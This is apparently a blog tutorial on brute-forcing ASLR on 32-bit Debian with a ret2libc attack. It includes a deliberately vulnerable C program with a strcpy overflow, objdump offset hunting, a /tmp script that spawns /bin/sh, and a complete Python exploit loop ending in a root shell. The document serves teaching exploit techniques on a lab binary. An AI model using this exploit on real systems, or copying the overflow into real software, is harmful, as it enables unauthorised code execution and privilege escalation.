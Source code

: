 ```yaml
---
layout: post
title: ASLR Bruteforce
categories: [pwn]
tags: [pwn]
description: How to defeat ASLR on a 32 bits Linux system.
---
```


# 1. Surroundings

```bash
$ uname -a
Linux debian 3.16.0-4-amd64 #1 SMP Debian 3.16.39-1+deb8u2 (2017-03-07) x86_64 GNU/Linux

$ lsb_release -a
No LSB modules are available.
Distributor ID:	Debian
Description:	Debian GNU/Linux 8.7 (jessie)
Release:	8.7
Codename:	jessie

$ gcc --version
gcc (Debian 4.9.2-10) 4.9.2

$ /lib32/libc.so.6 
GNU C Library (Debian GLIBC 2.19-18+deb8u7) stable release version 2.19, by Roland McGrath et al.
```

# 2. Explanation
Today I will show you a method to bruteforce the ASLR. This method is very usefull because it can bypass NX and ASLR protections together! But this method is only available in a x86 or less architecture because of the addresses lenght. The step is very similar as a Ret2libc attack but in our case we will take a LibC base reference address and loop the binary execution while the ASLR isn't set to our LibC reference's address.

# 3. Vulnerable binary

```c
#include <stdio.h>
#include <string.h>

// gcc main.c -z execstack -fno-stack-protector -m32

void print_name(char *str)
{
  char name[64];

  strcpy(name, str);
  printf("Welcome %s!", name);
}

int main(int ac, char **av)
{
  if (ac != 2)
    {
      printf("Usage : ./a.out [name]\n");
      return 1;
    }
  print_name(av[1]);
  return 0;
}
```

```bash
$ checksec --file a.out       
RELRO           STACK CANARY      NX            PIE          RPATH      RUNPATH	FORTIFY	Fortified Fortifiable  FILE
No RELRO        No canary found   NX enabled    No PIE       No RPATH   No RUNPATH   No	0		   4   a.out
```

It's a very simple peace of code with an overflow in "print_name" function.

# 4. The payload
The payload is very easy. It will look like:

```bash
+-------------------+
|      padding      |
+-------------------+
|  system address's |
+-------------------+
|   exit address's  |
+-------------------+
| /bin/sh address's |
+-------------------+
```

Well, it's a Ret2libc as we've seen in the previous article. The particularity is that we don't know any of the addresses we needed. So we first need to know the LibC address's to deduct the addresses we needed.

If we check the library addresses we can see something very interesting:

```bash
$ ldd a.out|grep libc
	libc.so.6 => /lib32/libc.so.6 (0xf757f000)

$ ldd a.out|grep libc
	libc.so.6 => /lib32/libc.so.6 (0xf75fb000)

$ ldd a.out|grep libc
	libc.so.6 => /lib32/libc.so.6 (0xf7555000)

ldd a.out|grep libc
	libc.so.6 => /lib32/libc.so.6 (0xf751e000)
```

There are only 8 bits of the Libc address's which evolves. So if we take randomly one of these addresses, there is a lot of chance that we will get it an other time!

So we've the Libc address, now we need the system/exit offset functions to add it to our base Libc address to know the final addresses function. I will use objdump to get the offsets:

```bash
$ objdump -D /lib32/libc.so.6|egrep "<exit>:|<__libc_system>:"
000311b0 <exit>:
0003e3e0 <__libc_system>:
```

It's OK for the addresses offsets. Now we need a string for the first system function argument.
To remind: 

```c
int system(const char *command);
```

We will use a little trick to do this. We will use a string from the binary section where the addresses don't change (like rodata section). The string need to end with a null byte. ('\0') I'm habits to use a common binary string in the dynstr section:

```bash
$ objdump -s a.out -j .dynstr|grep "gmon"
 804825c 5f676d6f 6e5f7374 6172745f 5f00474c  _gmon_start__.GL
```

Great, the string "\_gmon\_start\_\_" will be perfect. As this command does not exist actually, we will create it. The file "/tmp/\_gmon\_start\_\_" will contain:

```bash
#!/bin/sh
/bin/sh
```

No more or less! After did it, we set the correct right to the file and we add "/tmp" repertory to the $PATH environment variable:

```bash
chmod 777 /tmp/_gmon_start__ && PATH=$PATH:/tmp
```

As you might understand, we will execute a command we've create, named "\_gmon\_start\_\_" which will execute a /bin/sh.

It's OK for this part! The last step before writting the exploit is to get the padding. Another time thanks to objdump: 

```bash
$ objdump -D a.out|grep "<print_name>:" -A 17 -n              
372:0804845b <print_name>:
373- 804845b:	55                   	push   %ebp
374- 804845c:	89 e5                	mov    %esp,%ebp
375- 804845e:	83 ec 48             	sub    $0x48,%esp
376- 8048461:	83 ec 08             	sub    $0x8,%esp
377- 8048464:	ff 75 08             	pushl  0x8(%ebp)
378- 8048467:	8d 45 b8             	lea    -0x48(%ebp),%eax
379- 804846a:	50                   	push   %eax
380- 804846b:	e8 b0 fe ff ff       	call   8048320 <strcpy@plt>
381- 8048470:	83 c4 10             	add    $0x10,%esp
382- 8048473:	83 ec 08             	sub    $0x8,%esp
383- 8048476:	8d 45 b8             	lea    -0x48(%ebp),%eax
384- 8048479:	50                   	push   %eax
385- 804847a:	68 70 85 04 08       	push   $0x8048570
386- 804847f:	e8 8c fe ff ff       	call   8048310 <printf@plt>
387- 8048484:	83 c4 10             	add    $0x10,%esp
388- 8048487:	c9                   	leave  
389- 8048488:	c3                   	ret    
```

You can see at line 378 that our buffer is at 0x48 bytes from the base pointer. So we just need to add four bytes to this value to also erase ebp value. A little "echo" tricks to convert value from a base to another:

```bash
$ echo "ibase=16; 4C"|bc
76
```

We can now write our exploit!

# 5. The exploit
```python
#!/usr/bin/env python
# coding: utf-8

import struct
import subprocess

base = 0xf756e000           # base libc address's
system_offset = 0x0003e3e0  # system offset function
exit_offset = 0x000311b0    # exit offset function
binsh =  0x804825c          # string addresse's (_gmon_start__)

system_addr = base + system_offset # final system address's
exit_addr = base + exit_offset     # final exit address's

payload = "A" * 76
payload += struct.pack("<I",system_addr)
payload += struct.pack("<I",exit_addr)
payload += struct.pack("<I",binsh)

while (1):
    result = subprocess.call(["./a.out", payload])	
    if not result:
    	print "Done"
    	exit(0)
    else:
    	print "KO\n"
```

# 6. Exploitation
Sometimes the input/output failed, so you need to retry the exploitation to correct it.

A root shell per favor!

```bash
$ python exploit.py
...
KO

KO

KO

$ id
uid=1000(user) gid=1000(user) euid=0(root) groups=1000(user)
```

Done.
